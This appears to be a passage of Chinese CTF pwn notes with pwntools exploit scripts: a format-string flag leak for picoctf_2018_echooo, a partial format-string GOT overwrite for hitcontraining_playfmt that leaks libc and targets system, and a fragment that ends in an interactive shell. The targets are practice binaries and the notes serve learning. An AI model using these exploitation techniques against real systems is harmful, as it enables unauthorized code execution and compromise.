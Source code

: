 ```python
sleep(0.3)
sh.sendline('1')
sh.sendline("exec 1>&0")

sh.interactive()

```

## 8月11日

## 1.picoctf_2018_echooo(格式化，flag在栈上直接泄露)

```python
from pwn import *
p=process('./PicoCTF_2018_echooo')
#p=remote('node4.buuoj.cn',26349)
offset=11
flag=''
for i in range(27,27+11):
    payload='%'+str(i)+'$p'
    p.sendlineafter('> ',payload)
    aim=unhex(p.recvuntil('\n',drop=True).replace('0x',''))
    flag+=aim[::-1]
print(flag) 

```

## 2.hitcontraining_playfmt（格式化利用bp链  变形题）

这个和SWPUCTF_2019_login差不多，不过有更好的办法

上次我们拆分成3次写入很麻烦，这里实际上两次也可以，然后不一定要去利用bq链延续下去改一整条链

我们可以把bp链上面的地址改了，没什么影响的而且这样省去了恢复bp链

exp

```python
#coding:utf8
from pwn import *
r = remote("node4.buuoj.cn", 28112)
elf = ELF("./playfmt")
libc = ELF('libc-2.23.so')
printf_got = 0x0804A010
#context.log_level = 'debug'
r.recvuntil("=====================\n")
r.recvuntil("=====================\n") #6 rbp 9 GOT 10 6->10
payload = "%6$p\n%15$p"
r.sendline(payload)
rbp = int(r.recvuntil('\n').strip(), 16)
success("rbp:"+hex(rbp))
start_main = int(r.recvuntil('\n').strip(), 16) - 247#本地偏移是241，但是远程比较皮吧？ 
print(hex(start_main))
libc.address = start_main - libc.sym['__libc_start_main']
system = libc.sym['system']
success("libc:"+hex(libc.address))
#写入第一部分，printf的got
raw_input()
got_addr = rbp - 4
num = got_addr & 0xFF
payload = '%' + str(num) + 'c%6$hhn'
r.sendline(payload)

raw_input()
```